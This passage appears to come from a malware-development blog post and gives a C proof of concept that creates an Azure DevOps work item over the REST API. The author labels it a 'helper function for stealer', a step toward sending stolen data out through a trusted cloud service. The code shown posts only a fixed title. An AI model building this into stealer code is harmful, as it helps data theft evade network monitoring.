 Here's a minimal PoC that sets only the `System.Title`, based on Microsoft documentation (`hack2.c`):      

```cpp
/*
 * hack2.c
 * Azure DevOps REST API
 * create work item
 * helper function for stealer
 * author @cocomelonc
 */
#include <stdio.h>
#include <windows.h>
#include <winhttp.h>

int main() {
  HINTERNET hSession, hConnect, hRequest;
  DWORD bytesRead;
  char buffer[8192];

  // headers
  const wchar_t *authHeader = L"Authorization: Basic Ojl...FBQUFBQVNBWkRPT2NBQQ==\r\n";
  const wchar_t *contentHeader = L"Content-Type: application/json-patch+json\r\n";
  const wchar_t *acceptHeader = L"Accept: application/json\r\n";

  // JSON patch for patch operations (PATCH)
  const char *postData = "[{\"op\":\"add\",\"path\":\"/fields/System.Title\",\"from\":null,\"value\":\"meow\"}]";

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY,
               WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);

  hConnect = WinHttpConnect(hSession, L"dev.azure.com", INTERNET_DEFAULT_HTTPS_PORT, 0);

  hRequest = WinHttpOpenRequest(
    hConnect,
    L"POST",
    L"/cocomelonkz/hack1/_apis/wit/workitems/$Task?api-version=7.1",
    NULL, WINHTTP_NO_REFERER,
    WINHTTP_DEFAULT_ACCEPT_TYPES,
    WINHTTP_FLAG_SECURE
  );

  WinHttpAddRequestHeaders(hRequest, authHeader, -1L, WINHTTP_ADDREQ_FLAG_ADD);
  WinHttpAddRequestHeaders(hRequest, contentHeader, -1L, WINHTTP_ADDREQ_FLAG_ADD);
  WinHttpAddRequestHeaders(hRequest, acceptHeader, -1L, WINHTTP_ADDREQ_FLAG_ADD);

  WinHttpSendRequest(hRequest,
             WINHTTP_NO_ADDITIONAL_HEADERS, 0,
             (LPVOID)postData, strlen(postData),
             strlen(postData), 0);

  WinHttpReceiveResponse(hRequest, NULL);

  while (WinHttpReadData(hRequest, buffer, sizeof(buffer) - 1, &bytesRead) && bytesRead > 0) {
    buffer[bytesRead] = '\0';
    printf("%s", buffer);
  }

  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hSession);

  return 0;
```